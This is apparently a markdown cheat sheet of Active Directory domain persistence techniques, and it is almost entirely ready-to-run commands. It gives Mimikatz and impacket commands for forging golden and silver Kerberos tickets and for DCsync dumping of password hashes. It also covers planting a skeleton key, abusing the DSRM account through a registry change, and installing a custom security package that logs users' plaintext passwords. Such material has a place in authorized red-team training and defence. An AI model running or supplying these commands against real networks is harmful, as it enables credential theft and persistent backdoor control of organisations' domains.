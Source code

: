 # Active Directory Domain Persistence

## Domain Persistence

### Golden Ticket Attack

Execute mimikatz on DC as DA to grab krbtgt hash:

```text
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName <DC'sName>
```

On any machine:

```text
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<DomainName> /sid:<Domain's SID> /krbtgt:
<HashOfkrbtgtAccount>   id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

### DCsync Attack

DCsync using mimikatz \(You need DA rights or DS-Replication-Get-Changes and DS-Replication-Get-Changes-All privileges\):

```text
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DomainName>\<AnyDomainUser>"'
```

DCsync using secretsdump.py from impacket with NTLM authentication

```text
secretsdump.py <Domain>/<Username>:<Password>@<DC'S IP or FQDN> -just-dc-ntlm
```

DCsync using secretsdump.py from impacket with Kerberos Authentication

```text
secretsdump.py -no-pass -k <Domain>/<Username>@<DC'S IP or FQDN> -just-dc-ntlm
```

> **Tip:** 
>
>  /ptt -&gt; inject ticket on current running session 
>
>  /ticket -&gt; save the ticket on the system for later use

### Silver Ticket Attack

```text
Invoke-Mimikatz -Command '"kerberos::golden /domain:<DomainName> /sid:<DomainSID> /target:<TheTargetMachine> /service:
<ServiceType> /rc4:<TheSPN's Account NTLM Hash> /user:<UserToImpersonate> /ptt"'
```

[SPN List](https://adsecurity.org/?page_id=183)

### Skeleton Key Attack

Exploitation Command ran as DA:

```text
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <DC's FQDN>
```

Access using the password "mimikatz"

```text
Enter-PSSession -ComputerName <AnyMachineYouLike> -Credential <Domain>\Administrator
```

### DSRM Abuse

_What is this?: Every DC has a local Administrator account, this accounts has the DSRM password which is a SafeBackupPassword. We can get this and then pth its NTLM hash to get local Administrator access to DC!_

Dump DSRM password \(needs DA privileges\):

```text
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -ComputerName <DC's Name>
```

This is a local account, so we can PTH and authenticate but we need to alter the behavior of the DSRM account before PTH:

1. Connect on DC:

   ```text
   Enter-PSSession -ComputerName <DC's Name>
   ```

2. Alter the Logon behavior on the registry:

   ```text
   New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehaviour" -Value 2 -PropertyType DWORD -Verbose
   ```

3. If the property already exists:

   ```text
   Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehaviour" -Value 2 -Verbose
   ```

Then just PTH to get local admin access on DC!

### Custom SSP

_What is this?: We can set our on SSP by dropping a custom dll, for example mimilib.dll from mimikatz, that will monitor and capture plaintext passwords from users that logged on!_

Get current Security Package:

```text
$packages = Get-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig\" -Name 'Security Packages' | select -ExpandProperty  'Security Packages'
```

Append mimilib:

```text
$packages += "mimilib"
```

Change the new packages name

```text
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig\" -Name 'Security Packages' -Value $packages
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name 'Security Packages' -Value $packages
```

Alternative solution:

```text
Invoke-Mimikatz -Command '"misc::memssp"'
```

Now all logons on the DC are logged to -&gt; `C:\Windows\System32\kiwissp.log`

## Reference

{% embed url="https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet/blob/master/README.md\#domain-persistence" %}






